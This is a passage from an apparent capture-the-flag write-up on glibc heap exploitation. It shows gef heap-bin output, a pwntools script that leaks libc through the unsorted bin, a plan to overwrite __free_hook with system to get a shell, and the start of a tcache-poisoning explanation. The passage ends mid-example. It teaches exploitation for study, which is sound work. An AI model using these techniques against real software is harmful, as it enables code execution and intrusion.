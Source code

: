 ```
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
───────────────── Unsorted Bin for arena '*0x7ffaf420db80' ─────────────────
[+] unsorted_bins[0]: fw=0x5579d7edb2c0, bk=0x5579d7edb2c0
 →   Chunk(addr=0x5579d7edb2d0, size=0x90, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
───────────────── Small Bins for arena '*0x7ffaf420db80'  ─────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────── Large Bins for arena '*0x7ffaf420db80'  ─────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```
Now, we just need to read the pointer(s) using `print_items` option. You can calculate libc offset in gdb and use that to calculate libc base address.
```py
a = sell_item('stdnoerr')
tcache = [sell_item(str(i)*8) for i in range(7)]

for i in tcache: buy_item(i)
buy_item(a)

print_items()
p.recvuntil('Name: ')
libc_leak = u64(p.recvline(False).ljust(8, b'\x00'))
libc.address = libc_leak - 0x1ebbe0 # main_arena + 96
```
Now that we have calculated the libc base address, we have addresses of `__malloc_hook`, `__free_hook` etc. You just have to decide which one you want to overwrite.<br>
I like to overwrite `__free_hook` with `system` and free a chunk with `/bin/sh` in it because it gives a stable method and you don't have to satisfy any constraints for `one gadget`.<br>
To overwrite `__free_hook`, we will do what is known as tcache poisoning/tcache dup attack, more commonly known as the former.

## Tcache poisoning attack
This attack is used to make `malloc` return arbitrary pointer, effectively giving us write-what-where primitive.<br>
This attack is based on the way tcachebin lists work. It is a singly-linked list. It means that it holds a reference to next chunk in list (in `next`/`fd`). It follows Last-In-First-Out (LIFO) mechanism, meaning the last chunk which was freed and was put in tcachebin will the first one to be returned when a chunk of its size is requested.<br>
Lets take an example. Consider the following code: -
```c
void* a = malloc(8); // this will give us 0x20 sized chunk
void* b = malloc(8);

free(a); // [1]
free(b); // [2]

void* c = malloc(8); // [3]
```
At [1], tcachebin for `0x20` sized chunks will look like this:
```
tcachebin[0x20]: a -> 0x0
```
Chunks are added and removed at/from head of the list (LIFO). At [2], the tcachebin will look like this:
```
tcachebin[0x20]: b -> a -> 0x0
```
Now, when we request a chunk of size `8` ([3]), it will be served using the tcachebin and `b` will be removed from the list and list will get back to its previous state:
```
```